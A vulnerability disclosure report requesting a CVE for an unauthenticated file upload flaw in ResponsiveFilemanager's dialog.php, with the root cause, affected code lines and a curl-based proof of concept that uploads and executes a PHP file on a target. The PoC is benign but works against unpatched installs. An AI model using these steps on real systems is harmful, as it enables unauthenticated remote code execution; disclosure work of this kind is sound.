


# CVE Request Report: ResponsiveFilemanager unauthenticated unrestricted file upload

## Vulnerability Topic

ResponsiveFilemanager unauthenticated unrestricted file upload in `filemanager/dialog.php`.

## Vendor / Github repo

- Vendor / project: ResponsiveFilemanager
- GitHub repository: `https://github.com/trippo/ResponsiveFilemanager`

## Product Name

ResponsiveFilemanager

## Release Version / Commit Hash / Affected Range

- Confirmed affected commit: `51eddae5190cfc4408ade40575ee63404fead0b9`
- Affected range: not fully determined. Versions containing the vulnerable direct upload handler in `filemanager/dialog.php` are likely affected.
- Fixed version: unknown / not confirmed.

## Vulnerability Type

Unrestricted file upload / missing authentication.

## CWE

- CWE-434: Unrestricted Upload of File with Dangerous Type
- CWE-306: Missing Authentication for Critical Function

## Summary of Affection

ResponsiveFilemanager exposes a direct upload path in `filemanager/dialog.php`. In the default configuration, access keys are disabled, and the direct upload code accepts `$_FILES['upload']`, preserves the uploaded extension, and writes the file to the configured upload directory. This bypasses the extension allowlist enforced elsewhere. On deployments where `/source/` is web-accessible and PHP-executable, unauthenticated attackers can upload and execute PHP files.

## Root Cause

The default configuration sets `USE_ACCESS_KEYS` to false. `dialog.php` only checks `akey` when access keys are enabled, then sets `$_SESSION['RF']["verify"] = "RESPONSIVEfilemanager"` itself. Its direct upload handler runs before the normal file manager flow and moves the uploaded file to the upload directory without calling `check_extension()`, `fix_filename()`, an authentication hook, or CSRF validation.

## Attack Preconditions

- `filemanager/dialog.php` is reachable by the attacker.
- The application is deployed with default access-key behavior or another configuration that allows the direct upload path without authentication.
- For code execution, the configured upload directory, default `/source/`, must be web-accessible and configured to execute PHP.

## Impact

An unauthenticated attacker can upload arbitrary files into the configured upload directory. If PHP execution is enabled there, the vulnerability leads to remote code execution. Otherwise, it still permits unauthenticated placement of arbitrary web-accessible content using attacker-chosen extensions.

## Affected Code

- `filemanager/config/config.php:33`: `define('USE_ACCESS_KEYS', false);`
- `filemanager/config/config.php:78-88`: default `upload_dir` is `/source/`, and `current_path` is `../source/`.
- `filemanager/dialog.php:7-17`: `akey` is checked only when `USE_ACCESS_KEYS` is enabled.
- `filemanager/dialog.php:19`: the script sets `$_SESSION['RF']["verify"]` itself.
- `filemanager/dialog.php:21-35`: the direct upload handler reads `$_FILES['upload']`, preserves the extension, and writes the file using `move_uploaded_file()`.

## Proof of Concept

Create a benign proof file:

```bash
printf '<?php echo "RF_UPLOAD_POC"; ?>' > /tmp/rf_poc.php
```

Upload it:

```bash
curl -i \
  -F 'upload=@/tmp/rf_poc.php;filename=rf_poc.php' \
  'https://target.example/filemanager/dialog.php'
```

Expected JSON response includes a timestamped PHP filename:

```json
{"fileName":"rf_poc_<timestamp>.php","uploaded":1,"url":"https://target.example/source/rf_poc_<timestamp>.php"}
```

Execute the uploaded file:

```bash
curl 'https://target.example/source/rf_poc_<timestamp>.php'
```

Expected proof output when PHP execution is enabled:

```text
RF_UPLOAD_POC
```

For easily reproduction 
```bash
cd PoC

docker build -t rfm-dialog-upload-poc .

docker run --rm -p 127.0.0.1:8000:8000 rfm-dialog-upload-poc
```


## Expected Result

The unauthenticated upload request should be rejected, and dangerous file extensions should be blocked before files are moved into a web-accessible directory.

After running the PoC






## Actual Result

The upload succeeds without authentication and preserves the uploaded PHP extension. On PHP-executable deployments, the uploaded proof file executes.

## Fix Status

Unknown / not confirmed fixed at the time of this report.

## Credit

fa1c4 <azesinter@mail.ustc.edu.cn>
